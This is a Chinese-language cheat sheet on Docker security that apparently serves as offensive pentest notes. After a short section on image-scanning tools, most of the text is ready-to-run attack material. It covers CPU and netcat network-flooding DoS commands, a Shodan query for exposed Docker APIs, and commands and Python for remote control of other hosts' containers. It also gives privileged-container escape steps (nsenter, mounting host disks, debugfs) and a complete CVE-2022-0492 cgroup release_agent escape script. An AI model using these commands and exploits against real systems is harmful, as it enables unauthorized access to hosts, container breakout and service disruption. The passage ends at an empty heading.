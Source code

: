 # Docker服务

1.镜像扫描

[Docker Scout](https://docs.docker.com/scout/)
```bash
git clone https://github.com/docker/scout-demo-service.git
cd scout-demo-service
docker login
docker build --push -t <ORG_NAME>/scout-demo:v1 .

docker scout enroll <ORG_NAME>
    Successfully enrolled organization <ORG_NAME> with Docker Scout Free
docker scout repo enable --org <ORG_NAME> <ORG_NAME>/scout-demo

docker scout cves --only-package express
```

Docker Scan
```Bash
docker scan hello-world

Testing hello-world...

Organization:      docker-desktop-test
Package manager:   linux
Project name:      docker-image|hello-world
Docker image:      hello-world
Licenses:          enabled

✓ Tested 0 dependencies for known issues, no vulnerable paths found.

Note that we do not currently have vulnerability data for your image.
```

[trivy](https://github.com/aquasecurity/trivy)
```Bash
trivy -q -f json <container_name>:<tag>
```

[snyk](https://docs.snyk.io/snyk-cli/getting-started-with-the-cli)
```Bash
snyk container test <image> --json-file-output=<output file> --severity-threshold=high
```

[clair-scanner](https://github.com/arminc/clair-scanner)
```Bash
clair-scanner -w example-alpine.yaml --ip YOUR_LOCAL_IP alpine:3.5
```

2.cgroups
```Bash
docker run -it -m 500M --kernel-memory 50M --cpu-shares 512 --blkio-weight 400 --name ubuntu1 ubuntu bash
```

获取容器的cgroup
```Bash
docker run -dt --rm [images-name] sleep 200
ps -ef | grep 200
ls -l /proc/<PID>/ns
```

3.容器DOS

CPU DOS
```Bash
# stress-ng
sudo apt-get install -y stress-ng && stress-ng --vm 1 --vm-bytes 1G --verify -t 5m

# While
docker run -d --name malicious-container -c 512 busybox sh -c 'while true; do :; done'
```

网络DOS
```Bash
nc -lvp 4444 >/dev/null & while true; do cat /dev/urandom | nc <target IP> 4444; done
```

## 滥用API

Shodan：
```Bash
port:2375 product:"docker"
```

启用API
```Bash
/usr/lib/systemd/system/docker.service:
ExecStart=/usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock

systemctl daemon-reload
systemctl restart docker
```

```Bash
docker -H IP地址:端口 version  //查看Docker版本
docker -H IP地址:端口 images  //查看运行的镜像
docker -H IP地址:端口 exec -it 镜像ID /bin/bash  //远程访问容器

curl -X GET http://<远程主机IP>:2375/containers/json  //查看所有容器
curl -X GET http://<远程主机IP>:2375/images/json  //查看所有镜像
curl -X GET http://<远程主机IP>:2375/containers/<容器ID>/json  //查看特定容器的详细信息
curl -X GET http://<远程主机IP>:2375/images/<镜像ID>/json  //查看特定镜像的详细信息
```

使用Python脚本通过Docker API查看远程Docker靶机的容器和镜像信息
```python
import docker

client = docker.DockerClient(base_url='tcp://<远程主机IP>:2375')

# 查看所有容器
containers = client.containers.list(all=True)
for container in containers:
    print(container.id, container.name)

# 查看所有镜像
images = client.images.list()
for image in images:
    print(image.id, image.tags)
```

## 容器逃逸

### 特权容器逃逸

+ --cap-add=ALL
+ --security-opt apparmor=unconfined
+ --security-opt seccomp=unconfined
+ --security-opt label:disable
+ --pid=host
+ --userns=host
+ --uts=host
+ --cgroupns=host
+ mount /dev

1.hostpid

Docker启动选项
```bash
docker run --rm -u 0 -it --pid=host --privileged [镜像] /bin/bash
```

容器内执行
```Bash
nsenter --target 1 --mount --uts --ipc --net --pid – bash
```

2.挂载宿主机文件

Docker启动选项
```Bash
docker run --rm -u 0 -it --privileged [镜像] /bin/bash
docker run --rm -u 0 -it --device=/dev/sda1 [镜像] /bin/bash
```

容器内执行
```Bash
mkdir -p /mnt/docker
mount /dev/sda1 /mnt/docker
cd /mnd/docker
```

3.hostPath

容器内执行
```Bash
echo 1 > /proc/sysrq-trigger  //检查是否可写入
cat /proc/cmdline  //获取root UID
findfs UUID=UUID值  //查看文件系统
mkdir /mnt-docker
mount /dev/sda1 /mnt-docker
debugfs /dev/sda1
```

4.CVE-2022-0492

[UNIT42](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/)

[HTB](https://www.hackthebox.com/blog/cve-2022-04920-carpe-diem-explained)

枚举PID触发release_agent
```Bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=168607
CGROUP_NAME="x"
CGROUP_MOUNT="/docker"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# 运行一个长时间进程，以便搜索
sleep 10000 &

# 在宿主机上执行的有效负载
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

ps -eaf > \${OUTPATH} 2>&1  //在宿主机上运行的命令
__EOF__

chmod a+x ${PAYLOAD_PATH}

# cgroup挂载
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# 枚举宿主机PID
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # 将release_agent路径设置为枚举到的PID
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # 触发release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# 捕获输出
sleep 1
echo "Output:"
cat ${OUTPUT_PATH}
```

### Docker挂载
